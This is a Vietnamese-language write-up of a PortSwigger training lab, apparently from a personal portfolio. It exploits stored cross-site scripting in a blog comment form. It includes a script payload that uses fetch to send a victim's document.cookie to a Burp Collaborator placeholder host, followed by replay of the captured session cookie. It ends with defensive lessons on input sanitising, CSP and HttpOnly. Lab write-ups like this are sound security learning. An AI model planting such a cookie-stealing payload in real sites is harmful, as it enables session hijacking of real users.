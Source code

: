 # Write-up: Exploiting cross-site scripting to steal cookies

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để thu thập `cookie` phiên của nạn nhân, gửi đến Burp Collaborator thông qua yêu cầu POST. Payload sử dụng hàm fetch để gửi `document.cookie`, sau đó sử dụng cookie thu được (`Yb3yfKP8EpHZFyRszDW6mIu2DQeKDJfE`) trong Burp Repeater để chiếm quyền truy cập phiên, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để thu thập cookie phiên của nạn nhân, gửi đến Burp Collaborator, và sử dụng cookie để truy cập phiên của nạn nhân, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: `<script>alert(1337)</script>`
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com

- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị `1337`, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp:
    ![xss](./images/1_xss.png)

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```
        <script>
        fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
        });
        </script>
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- Cơ chế chi tiết của payload:
    - `<script>...</script>`: Chèn mã JavaScript vào comment, được lưu và thực thi khi nạn nhân xem bài blog.
    - `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST', mode: 'no-cors', body: document.cookie}`): Gửi yêu cầu POST đến Burp Collaborator với body chứa cookie phiên của nạn nhân (`document.cookie`).
    - `mode: 'no-cors'`: Đảm bảo yêu cầu gửi được dù bị hạn chế CORS.

- Kết quả:  
    - Khi nạn nhân xem bài blog, comment chứa `<script>` thực thi, gửi cookie đến Burp Collaborator
    - Kiểm tra Burp Collaborator, thấy cookie phiên: `Yb3yfKP8EpHZFyRszDW6mIu2DQeKDJfE`:
        ![token](./images/2_cookie.png)
    
- Gửi yêu cầu `GET / HTTP/2` đến Burp Repeater, thay giá trị Cookie bằng cookie và hoàn thành lab:
    ![solved](./images/3_solved.png)


### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để thu thập cookie phiên của nạn nhân thông qua fetch và Burp Collaborator, sử dụng cookie để chiếm quyền truy cập phiên.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai các biện pháp bảo vệ như CSP hoặc thuộc tính cookie HttpOnly để ngăn chặn các cuộc tấn công XSS và đánh cắp cookie.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để đánh cắp cookie phiên, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và sử dụng các biện pháp bảo vệ như `HttpOnly` và `CSP`. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*